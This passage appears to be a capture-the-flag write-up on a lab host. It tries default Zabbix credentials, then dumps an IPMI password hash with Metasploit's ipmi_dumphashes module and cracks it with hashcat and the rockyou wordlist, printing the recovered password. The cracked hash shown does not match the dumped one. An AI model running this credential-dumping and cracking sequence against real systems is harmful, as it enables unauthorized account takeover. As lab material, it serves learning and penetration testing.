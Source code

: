 Let's look for some default logins;;

Default username/password is **Admin/zabbix**.
https://openbaton.github.io/documentation/zabbix-server-configuration-3.0/

Tried: Admin:zabbix

Incorrect user name or password or account is temporarily blocked.
Well since we know the username, we can try to bruteforce it with the rockyou.txt wordlist.

Didn't work, let's try msfconsole..
scanner/ipmi/ipmi_dumphashes

```[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:1d3826a7820100002df6b31cb4aea2d0c1e52de978f7504f6896b85c244aeca29553b6549b540daca123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:d78cae0b42be9a4838f6c45f59e5eb18f6d88315
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution complete
```

Hashcat:
```hashcat -m 7300 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt --potfile-disable -D 1 --force  

Output:
58b62d87820900003004dc4cdcf924239d2484c1b31761d19b411600d2c072035779904332733b96a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:0e0ed8c6ada46dde1df11f69cfc8adb971fbc7fa:ilovepumkinpie1
```

